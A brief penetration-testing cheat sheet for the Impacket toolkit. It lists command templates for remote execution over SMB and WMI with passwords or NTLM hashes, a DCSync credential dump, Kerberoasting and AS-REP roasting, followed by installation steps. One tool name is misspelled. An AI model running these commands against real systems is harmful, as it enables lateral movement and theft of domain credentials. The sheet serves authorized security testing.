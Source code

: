 ## Overview

Impacket is a collection of Python classes for working with network protocols. It's essential for Windows penetration testing.

### Key Tools

- PSExec.py
	Remote command execution via SMB
- psexec.py domain/user:password@target
- psexec.py -hashes :ntlmhash domain/user@target
- WMIExec.py

#### Remote execution via WMI

- wmiexec.py domain/user:password@target
- wmiexec.py -hashes :ntlmhash domain/user@target
- SMBExec.py

#### Remote execution via SMB

- mbexec.py domain/user:password@target
- smbexec.py -hashes :ntlmhash domain/user@target

#### DCSync Attack

- secretsdump.py domain/user:password@dc-ip
- secretsdump.py -hashes :ntlmhash domain/user@dc-ip

#### Kerberoasting

- GetUserSPNs.py domain/user:password -dc-ip dc-ip -request

#### ASREPRoasting

- GetNPUsers.py domain/ -usersfile users.txt -format hashcat -outputfile hashes.txt

### Installation

```
pip install impacket
```
 
 or

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .
```
